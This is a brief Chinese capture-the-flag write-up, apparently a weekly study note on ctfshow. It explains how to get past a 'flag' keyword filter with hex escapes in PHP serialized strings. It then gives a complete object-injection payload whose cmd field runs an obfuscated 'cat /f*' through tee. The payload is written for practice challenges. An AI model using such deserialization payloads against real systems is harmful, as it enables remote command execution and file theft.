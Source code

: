 因为传入的参数过滤了flag，所以可以用十六进制绕过。当字符类型为大写S时，会被当做十六进制解析flag中的g十六进制是67，所以可以将反序列化结果中的flag全部替换成fla\67,同时把前面的s改成S

 payload：data=O:5:"unser":2:{s:3:"obj";O:2:"ZY":3:{s:3:"obj";O:6:"GGbond":1:{s:5:"candy";O:2:"ZY":3:{s:3:"obj";N;S:4:"fla\67";O:4:"ZYPC":1:{s:3:"cmd";s:29:"cacatt$IFS$9/f*|teteee$IFS$9a";}s:4:"auth";s:19:"s:11:"waterbucket";";}}S:4:"fla\67";N;s:4:"auth";s:19:"s:11:"waterbucket";";}s:4:"auth";N;}

打开a即可得到flag



## 下周目标

1.继续刷ctfshow

 







